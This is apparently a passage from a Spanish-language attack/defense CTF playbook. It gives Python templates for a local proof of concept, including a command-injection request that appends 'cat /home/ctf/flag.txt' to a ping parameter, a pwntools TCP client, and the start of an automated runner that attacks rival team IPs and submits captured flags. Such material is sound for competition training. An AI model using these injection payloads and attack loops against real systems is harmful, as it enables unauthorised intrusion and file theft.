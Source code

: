 ## 4) PoC local → Exploit **estable** (en tu máquina)
Una vez confirmada la vuln, crea **PoC estable** que **devuelva solo el flag** (o evidencia clara).

**Template HTTP (Command Injection / LFI / SQLi)**:
```python
#!/usr/bin/env python3
# exploit_local_poc.py
import requests, sys

TARGET = "http://127.0.0.1"  # local primero
def get_flag():
    # EJEMPLO Command Injection
    url = f"{TARGET}/ping.php"
    r = requests.get(url, params={"host": "127.0.0.1; cat /home/ctf/flag.txt"}, timeout=5)
    text = r.text.strip()
    if "FLAG{" in text:
        return text.split("FLAG{",1)[1].split("}",1)[0]
    return None

if __name__ == "__main__":
    flag = get_flag()
    print(f"FLAG{{{flag}}}" if flag else "No flag")
```

**Template TCP (pwntools, pwn/bof o protocolo propio)**:
```python
#!/usr/bin/env python3
# tcp_poc.py
from pwn import remote
def get_flag(host, port):
    io = remote(host, port, timeout=5)
    # protocolo de ejemplo
    io.sendline(b"GET FLAG")
    data = io.recvrepeat(1).decode(errors="ignore")
    io.close()
    return data
```

- **Meta:** PoC que puedas **adaptar a cualquier IP** de rival y que **imprima solo la flag**.

---

## 5) Automatizar ataque a otros equipos (excluye tu IP)
**Exploit Runner** (usa tu PoC y manda flags al scoreboard). Mantén **idempotencia** (no reenvíes flags repetidas).

```python
#!/usr/bin/env python3
# exploit_runner.py
import requests, subprocess, time

SCOREBOARD = "http://scoreboard/flags"
TOKEN = "TOKEN_AQUI"
TEAM_BASE = "10.66.{i}.4"   # ejemplo de esquema de IPs por equipo
N_EQUIPOS = 21
MY_IP = "10.66.1.4"

seen = set()

def submit(flag):
    if flag in seen: 
        return
    seen.add(flag)
    try:
        r = requests.post(SCOREBOARD, json={"flag": f"FLAG{{{flag}}}", "token": TOKEN}, timeout=5)
```